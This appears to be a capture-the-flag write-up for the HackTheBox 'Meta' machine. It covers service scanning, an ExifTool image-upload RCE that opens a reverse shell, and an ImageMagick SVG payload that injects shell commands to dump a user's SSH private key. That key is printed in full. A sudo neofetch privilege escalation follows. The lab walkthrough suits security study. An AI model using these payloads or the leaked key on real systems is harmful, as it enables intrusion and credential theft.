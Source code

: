 ![image](PWND/Meta.png)

# NMap 

nmap 10.10.11.140

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


## Digging Deeper
nmap -sC -sV 10.10.11.140 -o nmap/meta  -v -e tun0

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# Foothold
![image](https://user-images.githubusercontent.com/129129988/228424954-b7846044-8d36-4ab7-8166-26e52b9133d0.png)

add the domain name to /etc/hosts file. 

![image](https://user-images.githubusercontent.com/129129988/228425011-eecd78a6-6a38-48ad-a542-c1b5443f79bc.png)

![image](https://user-images.githubusercontent.com/129129988/228425028-1f943fb2-2ebf-4d4b-91f3-7158b6f79ce1.png)

there is not much info 
using gobuster to fuzz dir. also lets check for vhosts

gobuster dir -u http://artcorp.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
got no useful results.

ffuf -u http://artcorp.htb/ -H "HOST: FUZZ.artcorp.htb" -w /usr/share/seclists/Discovery/DNS/subdomain
s-top1million-5000.txt -mc 200

![image](https://user-images.githubusercontent.com/129129988/228425067-5feb5886-5615-4ecf-acfb-adbb6147c1f8.png)

add dev01.artcorp.htb to your hosts file.

![image](https://user-images.githubusercontent.com/129129988/228425086-397244c9-71d8-4959-a733-7dd135f7a556.png)

Here is the website. We can see MetaView is in testing so lets explore that.

![image](https://user-images.githubusercontent.com/129129988/228425108-53ed10a0-60c5-449a-ae7a-9f57d98f2ccd.png)

Here we can upload an image 

![image](https://user-images.githubusercontent.com/129129988/228425440-024c0ce3-3e0e-4ef6-ae65-508cc0f1b7c6.png)

as you can see metaView is actually using exiftool to give us meta data. Lets try to find an exploit for exiftool. 

https://www.google.com/search?client=firefox-b-1-e&q=exiftool+exploit
![image](https://user-images.githubusercontent.com/129129988/228425464-4f7c88e4-ffa4-419a-9788-692c0d71e970.png)

Here is a great link on how it works.
https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/

First lets clone the github repo and install the requirments.

git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
apt install djvulibre-bin exiftool

Now lets edit the exploit.py with our tun0 IP and port. 

![image](https://user-images.githubusercontent.com/129129988/228425501-1d02fa7c-74b9-4e7b-a398-037f5ad676db.png)

After saving your exploit.py we are ready to begin. 

![image](https://user-images.githubusercontent.com/129129988/228425554-f1f67940-b95c-4a2d-9678-87d2654a0b2c.png)

You will have a file called image.jpg, The script saved the old one and image.jpg_original. 

Start a nc listener. 

![image](https://user-images.githubusercontent.com/129129988/228425572-5b4ca319-f77b-489e-b522-51b31b3c359e.png)

I chose port 9890

Now choose the image file and upload. 

![image](https://user-images.githubusercontent.com/129129988/228425596-1447675d-4326-413f-9eb3-73b5762ff2ca.png)

Great Now we have a shell. 

![image](https://user-images.githubusercontent.com/129129988/228425612-8e40d54b-1391-4a78-884a-7ba34bbef424.png)

Once you have the shell upgraded 

python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

![image](https://user-images.githubusercontent.com/129129988/228425631-9deacc8b-354f-476c-b2a1-f99f59af4ace.png)

we can see that we have a user named thomas but we dont have permissions to that user. I decided to do more enum using pspy64 transfer it to the machine and run it.
 
![image](https://user-images.githubusercontent.com/129129988/228425667-2c7e77d4-5e59-4486-ba57-8ce764fc9d5c.png)

there seems to be an image converter file, and it is using

$ cat /usr/local/bin/convert_images.sh 
#!/bin/bash 
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null 
pkill mogrify
 
looking online for image commang injections i found this website 
https://insert-script.blogspot.com/

```
poc.svg:
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
Here is the code i used i modifred the echo command with /dev/shm/0wned

![image](https://user-images.githubusercontent.com/129129988/228425801-6d36ce3b-e9e5-4785-be5d-0be2128037c5.png)

creat this file in your machine and start a web server 

python3 -m http.server 9989
download this file to /dev/shm folder
now copy the file to /var/www/dev01.artcorp.htb/convert_images/

and now wait for your command to execute. You should now see a 0wned file in /dev/shm

1. Download the poc.svg file from your machine to host.

![image](https://user-images.githubusercontent.com/129129988/228425866-60cf80fe-aca9-40df-8fb2-0dab47a86ea1.png)

2. Copy the file to location where the file will be executed.
cp poc.svg /var/www/dev01.artcorp.htb/convert_images/

3. Wait for svg to execute

![image](https://user-images.githubusercontent.com/129129988/228425996-9332873b-a95c-4df7-9c4e-80191f4ddf4e.png)

![image](https://user-images.githubusercontent.com/129129988/228426011-1ef97fd2-e3ab-45ed-ab8b-5237e7e3ffcf.png)

![image](https://user-images.githubusercontent.com/129129988/228426019-7c8c4217-af0f-4533-bf75-f24cb012ebbf.png)
  
Now that we have confirmed this is working we can try to get a reverse shell of get .ssh key.

<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa)> /dev/shm/test`;"'>

ssh for thomas 

  ```
-----BEGIN OPENSSH PRIVATE KEY-----
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
bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=
-----END OPENSSH PRIVATE KEY-----
```
  
chmod 600 id_rsa 

ssh thomas@artcorp.htb -i id_rsa

  ![image](https://user-images.githubusercontent.com/129129988/228426129-45371647-ad8e-4c8f-a589-7b73580ab62e.png)


# Root Priv Esc 

Now that we are thomas we can first check for sudo commands we can run. 
sudo -l gives us a hint 

![image](https://user-images.githubusercontent.com/129129988/228426379-92aafd74-c785-4b7a-b7f1-1f43778a0684.png)

we can run commands with sudo permissions on neofetch a quick search on google and we can see that gtfo bins has neofetch 
https://gtfobins.github.io/gtfobins/neofetch/

Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
LFILE=file_to_read
sudo neofetch --ascii $LFILE    

Doing a little more digging i found config file for neofetch inside the home directory. 
We can add a rev shell into this config file on the top of it. 

![image](https://user-images.githubusercontent.com/129129988/228426416-6c7f37ef-e2df-460d-a003-afc357973f28.png)
  
make sure to set the correct env. 
export XDG_CONFIG_HOME="$HOME/.config"
setup nc listener

now run command with sudo.
![image](https://user-images.githubusercontent.com/129129988/228426462-514c2718-0d70-4a53-a85f-638023778b11.png)
![image](https://user-images.githubusercontent.com/129129988/228426479-0874dc2f-9c56-4dac-a543-d5b0cf601201.png)

We are Root. 

